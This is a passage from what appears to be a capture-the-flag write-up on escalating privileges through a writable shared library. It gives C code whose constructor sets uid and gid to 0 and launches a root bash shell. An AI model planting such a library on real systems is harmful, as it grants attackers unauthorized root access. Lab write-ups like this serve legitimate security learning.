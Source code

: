 ![Shared library](/assets/img/Zipping/Zipping_07.png)


So knowing we can write this shared library we should create one that allows us to execute commands as root. The most common and easy code example is the following where we set the uid and guid to 0 making it execute as root.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void vuln_func() __attribute__((constructor));

void vuln_func() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
}
```
